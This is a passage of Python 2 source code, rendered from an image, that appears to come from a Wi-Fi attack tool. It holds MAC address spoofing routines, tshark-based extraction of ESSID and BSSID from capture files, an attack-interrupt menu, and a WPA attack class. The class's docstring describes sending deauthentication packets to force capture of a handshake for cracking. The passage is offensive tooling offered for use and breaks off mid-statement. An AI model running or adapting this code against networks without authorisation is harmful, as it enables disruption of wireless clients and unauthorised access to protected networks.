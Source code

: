 old_mac) new_mac = generate_random_mac(old_mac) call(['ifconfig', iface, 'down']) print GR + " [+]" + W + " changing %s's MAC from %s to %s..." % (G + iface + W, G + old_mac + W, O + new_mac + W), stdout.flush() proc = Popen(['ifconfig', iface, 'hw', 'ether', new_mac], stdout=PIPE, stderr=DN) proc.wait() call(['ifconfig', iface, 'up'], stdout=DN, stderr=DN) print 'done' def mac_change_back(): """ Changes MAC address back to what it was before attacks began. """ global RUN_CONFIG iface = RUN_CONFIG.ORIGINAL_IFACE_MAC[0] old_mac = RUN_CONFIG.ORIGINAL_IFACE_MAC[1] if iface == '' or old_mac == '': return print GR + " [+]" + W + " changing %s's mac back to %s..." % (G + iface + W, G + old_mac + W), stdout.flush() call(['ifconfig', iface, 'down'], stdout=DN, stderr=DN) proc = Popen(['ifconfig', iface, 'hw', 'ether', old_mac], stdout=PIPE, stderr=DN) proc.wait() call(['ifconfig', iface, 'up'], stdout=DN, stderr=DN) print "done" def get_essid_from_cap(bssid, capfile): """ Attempts to get ESSID from cap file using BSSID as reference. Returns '' if not found. """ if not program_exists('tshark'): return '' cmd = ['tshark', '-r', capfile, '-R', 'wlan.fc.type_subtype == 0x05 && wlan.sa == %s' % bssid, '-2', # -R is deprecated and requires -2 '-n'] proc = Popen(cmd, stdout=PIPE, stderr=DN) proc.wait() for line in proc.communicate()[0].split('\n'): if line.find('SSID=') != -1: essid = line[line.find('SSID=') + 5:] print GR + ' [+]' + W + ' guessed essid: %s' % (G + essid + W) return essid print R + ' [!]' + O + ' unable to guess essid!' + W return '' def get_bssid_from_cap(essid, capfile): """ Returns first BSSID of access point found in cap file. This is not accurate at all, but it's a good guess. Returns '' if not found. """ global RUN_CONFIG if not program_exists('tshark'): return '' # Attempt to get BSSID based on ESSID if essid != '': cmd = ['tshark', '-r', capfile, '-R', 'wlan_mgt.ssid == "%s" && wlan.fc.type_subtype == 0x05' % (essid), '-2', # -R is deprecated and requires -2 '-n', # Do not resolve MAC vendor names '-T', 'fields', # Only display certain fields '-e', 'wlan.sa'] # souce MAC address proc = Popen(cmd, stdout=PIPE, stderr=DN) proc.wait() bssid = proc.communicate()[0].split('\n')[0] if bssid != '': return bssid cmd = ['tshark', '-r', capfile, '-R', 'eapol', '-2', # -R is deprecated and requires -2 '-n'] proc = Popen(cmd, stdout=PIPE, stderr=DN) proc.wait() for line in proc.communicate()[0].split('\n'): if line.endswith('Key (msg 1/4)') or line.endswith('Key (msg 3/4)'): while line.startswith(' ') or line.startswith('\t'): line = line[1:] line = line.replace('\t', ' ') while line.find(' ') != -1: line = line.replace(' ', ' ') return line.split(' ')[2] elif line.endswith('Key (msg 2/4)') or line.endswith('Key (msg 4/4)'): while line.startswith(' ') or line.startswith('\t'): line = line[1:] line = line.replace('\t', ' ') while line.find(' ') != -1: line = line.replace(' ', ' ') return line.split(' ')[4] return '' def attack_interrupted_prompt(): """ Promps user to decide if they want to exit, skip to cracking WPA handshakes, or continue attacking the remaining targets (if applicable). returns True if user chose to exit complete, False otherwise """ global RUN_CONFIG should_we_exit = False # If there are more targets to attack, ask what to do next if RUN_CONFIG.TARGETS_REMAINING > 0: options = '' print GR + "\n [+] %s%d%s target%s remain%s" % (G, RUN_CONFIG.TARGETS_REMAINING, W, '' if RUN_CONFIG.TARGETS_REMAINING == 1 else 's', 's' if RUN_CONFIG.TARGETS_REMAINING == 1 else '') print GR + " [+]" + W + " what do you want to do?" options += G + 'c' + W print G + " [c]ontinue" + W + " attacking targets" if len(RUN_CONFIG.WPA_CAPS_TO_CRACK) > 0: options += W + ', ' + O + 's' + W print O + " [s]kip" + W + " to cracking WPA cap files" options += W + ', or ' + R + 'e' + W print R + " [e]xit" + W + " completely" ri = '' while ri != 'c' and ri != 's' and ri != 'e': ri = raw_input(GR + ' [+]' + W + ' please make a selection (%s): ' % options) if ri == 's': RUN_CONFIG.TARGETS_REMAINING = -1 # Tells start() to ignore other targets, skip to cracking elif ri == 'e': should_we_exit = True return should_we_exit # # Abstract base class for attacks. # Attacks are required to implement the following methods: # RunAttack - Initializes the attack # EndAttack - Cleanly ends the attack # class Attack(object): __metaclass__ = abc.ABCMeta @abc.abstractmethod def RunAttack(self): raise NotImplementedError() @abc.abstractmethod def EndAttack(self): raise NotImplementedError() ################# # WPA FUNCTIONS # ################# class WPAAttack(Attack): def __init__(self, iface, target, clients, config): self.iface = iface self.clients = clients self.target = target self.RUN_CONFIG = config def RunAttack(self): ''' Abstract method for initializing the WPA attack ''' self.wpa_get_handshake() def EndAttack(self): ''' Abstract method for ending the WPA attack ''' pass def wpa_get_handshake(self): """ Opens an airodump capture on the target, dumping to a file. During the capture, sends deauthentication packets to the target both as general deauthentication packets and specific packets aimed at connected clients. Waits until a handshake is captured. "iface" - interface to capture on "target" - Target object containing info on access point "clients" - List of Client objects associated with the target Returns True if handshake was found, False otherwise """ if self.RUN_CONFIG.WPA_ATTACK_TIMEOUT <= 0: self.RUN_CONFIG.WPA_ATTACK_TIMEOUT = -1 # Generate the filename to save the .cap file as <SSID>_aa-bb-cc-dd-ee-ff.cap save_as = self.RUN_CONFIG.WPA_HANDSHAKE_DIR + os.sep + re.sub(r'[^a-zA-Z0-9]', '', self.target.ssid) \ + '_' + self.target.bssid.replace(':', '-') + '.cap' # Check if we already have a handshake for this SSID... If we do, generate a new filename save_index = 0 while os.path.exists(save_as): save_index += 1 save_as =